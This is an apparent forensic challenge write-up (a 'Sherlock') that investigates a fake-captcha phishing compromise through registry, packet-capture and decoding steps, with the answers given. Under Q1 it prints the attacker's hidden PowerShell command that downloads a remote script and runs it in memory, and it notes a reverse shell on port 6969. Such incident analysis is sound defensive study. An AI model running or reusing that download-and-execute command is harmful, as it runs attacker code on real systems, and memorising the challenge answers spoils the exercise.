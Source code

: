 
##### Sherlock Scenario

Happy Grunwald contacted the sysadmin, Alonzo, because of issues he had downloading the latest version of Microsoft Office. He had received an email saying he needed to update, and clicked the link to do it. He reported that he visited the website and solved a captcha, but no office download page came back. Alonzo, who himself was bombarded with phishing attacks last year and was now aware of attacker tactics, immediately notified the security team to isolate the machine as he suspected an attack. You are provided with network traffic and endpoint artifacts to answer questions about what happened.


Q1: It is crucial to understand any payloads executed on the system for initial access. Analyzing registry hive for user happy grunwald. What is the full command that was run to download and execute the stager.

A: powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"

We go to the hive of the indicated user.

![](../../Img/Pasted%20image%2020250513152918.png)

Load it and go to bookmark.
Under RunMRU we find it.

![](../../Img/Pasted%20image%2020250513153145.png)

Q2: At what time in UTC did the malicious payload execute?

A: 2024-09-23 05:07:45

In the Q1 screenshot.

Q3: The payload which was executed initially downloaded a PowerShell script and executed it in memory. What is sha256 hash of the script?

A: 579284442094e1a44bea9cfb7d8d794c8977714f827c97bcb2822a97742914de

To get the hash i need the file, to get the file we use wireshark to open the pcapng file and search.
One of the only 2 things that i have is the ip, so we use as filter.
Looking through the packets we spot the 2nd thing that we know, the file name.

![](../../Img/Pasted%20image%2020250513153952.png)

After checking that the download name it's the same as the execution name, we search for it in Export HTTP.

![](../../Img/Pasted%20image%2020250513154311.png)

Get the hash.

![](../../Img/Pasted%20image%2020250513154506.png)

Q4: To which port did the reverse shell connect?

A: 6969

We see what the file has.

![](../../Img/Pasted%20image%2020250513155127.png)

Decode it. (I use magic) (https://cyberchef.org/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Decode_text('UTF-16LE%20(1200)'))

![](../../Img/Pasted%20image%2020250513155219.png)

Q5: For how many seconds was the reverse shell connection established between C2 and the victim's workstation?

A: 

With the port, we add it to the filter in wireshark and calculate.

![](../../Img/Pasted%20image%2020250513155836.png)



Q6: Attacker hosted a malicious Captcha to lure in users. What is the name of the function which contains the malicious payload to be pasted in victim's clipboard?

A: 

